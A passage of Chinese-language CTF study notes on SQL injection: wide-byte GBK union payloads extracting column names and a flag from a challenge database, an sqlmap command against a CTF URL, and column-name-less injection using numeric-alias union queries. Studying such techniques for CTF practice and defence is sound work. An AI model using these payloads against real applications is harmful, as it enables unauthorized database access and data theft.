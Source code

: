 5. 爆字段：
```
?id=-1%df%27 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x63746634%23
```
字段:id flag
6. 查询关键字：
`?id=-1%df%27 union select 1,flag from ctf4%23`

7. 利用**sqlmap**
```
sqlmap -u "http://chinalover.sinaapp.com/SQL-GBK/index.php?id=1%df%27"
```





### 无列名注入

[csdn](https://blog.csdn.net/qq_40500631/article/details/89631904)

1. 无列名注入主要是适用于**已经获取到数据表名**，但无法查询列的情况下，在大多数 CTF 题目中，information_schema 库被过滤，使用这种方法获取列名。
2. 通过对要查询的列起别名，并查询这个别名将数据查出，达到未知列名，依旧查询到信息的效果
3. 要点：==使用反引号`加数字表示**列名或者表名**，或者用别名表示【反引号被过滤时】【**a.3**】==
4. ==[也可以使用join报错进行无列名注入](https://www.cnblogs.com/GH-D/p/11962522.html)==



![image-20210522141728684](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439845.png)

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439846.png" alt="image-20210522134617792" style="zoom:50%;" />

```mysql
//表有5列,列名为id,name,pass,mail,phone
select 1,2,3,4,5 union select*from users;   //列名变成12345，未知实际列名，前提是要知道表名 
//继续使用数字来对应列,如3对应了表里面的pass:
select`3`from (select 1,2,3,4,5 union select*from users)a;
//当`不能使用的时候，使用别名来代替：
select b from (select 1,2,3 as b,4,5 union select*from users)a;
//在注入中查询多个列：
select concat(`2`,0x3a,`3`) from (select 1,2,3,4,5 union select *from users)a limit 1,1;  //0x3a表示：
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439848.png" alt="image-20210522134817435"  />



#### 总结，一般套路：

别名法：

```mysql
(select `2` from (select 1,2,3 union select * from table_name)a)  //前提是要知道表名 
```

```mysql
((select c from (select 1,2,3 c union select * from users)b))    1，2，3是因为users表有三列，实际情况还需要猜测表的列的数量
```
